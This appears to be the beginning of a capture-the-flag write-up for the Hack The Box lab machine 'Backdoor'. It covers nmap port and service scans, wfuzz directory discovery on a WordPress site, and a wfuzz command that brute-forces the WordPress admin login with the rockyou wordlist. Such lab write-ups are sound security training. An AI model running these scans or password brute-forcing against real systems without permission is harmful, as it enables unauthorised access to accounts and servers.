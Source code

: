 ## Enumeration

The IP is 10.10.11.125, I will add it to /etc/hosts

Let's start off by enumerating the open ports:

`nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts`
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a nmap script to list the services and their versions that are running on each open port
  
`nmap -p22,80,1337 -sCV <ip> -oN targeted`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using wfuzz

`wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c`
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```
Brute force wp-admin.php POST request:
`wfuzz -w /usr/share/wordlists/rockyou. txt -d "log=admin&pwd=FUZZ" -u "http://backdoor.htb/wp-login.php" --hh=6081 -c`
